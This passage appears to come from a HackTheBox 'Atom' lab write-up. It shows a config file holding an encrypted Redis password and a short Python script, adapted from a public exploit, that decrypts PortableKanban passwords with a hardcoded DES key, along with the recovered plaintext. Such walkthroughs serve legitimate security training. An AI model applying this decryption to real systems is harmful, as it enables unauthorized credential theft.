 That seems like a `JSON` data, save it in a file on your local and parse it using `jq`.

```bash
┌──(root💀f4T1H)-[~/hackthebox/atom]
└─# cat configFile.cfg | jq . | head
{
  "RoamingSettings": {
    "DataSource": "RedisServer",
    "DbServer": "localhost",
    "DbPort": 6379,
    "DbEncPassword": "Odh7N3L9aVSeHQmgK/nj7RQL8MEYCUMb",
    "DbServer2": "",
    "DbPort2": 6379,
    "DbEncPassword2": "",
    "DbIndex": 0,
```

We got some new keywords'n terms from here;
- An encrypted password used in logging into `RedisServer`: `Odh7N3L9aVSeHQmgK/nj7RQL8MEYCUMb`

Let's first try to crack the password and then focus on `redis`.

### PortableKanban

Actually, I don't think what exactly PortableKanban is a must know thing for us. Because I've already found an exploit for it.<br>
(An app for scheduling your tasks with Kanban scheduling system, I couldn't control myself XD)<br><br>
[PortableKanban 4.3.6578.38136 - Encrypted Password Retrieval](https://www.exploit-db.com/exploits/49409)

I modified the exploit and got the password.

__pwdretrieve.py__
```python
#!/usr/bin/python3

import base64
from des import * #pip3 install des

def decode(hash):
        hash = base64.b64decode(hash.encode('utf-8'))
        key = DesKey(b'7ly6UznJ')
        return key.decrypt(hash, initial=b'XuVUm5fR', padding=True).decode('utf-8')

print(decode("Odh7N3L9aVSeHQmgK/nj7RQL8MEYCUMb"))
```

```bash
┌──(root💀f4T1H)-[~/hackthebox/atom/privesc]
└─> python3 pwdretrieve.py
kidvscat_yes_kidvscat
```

Alternatively, we could find the password from `redis` service's configuration files.
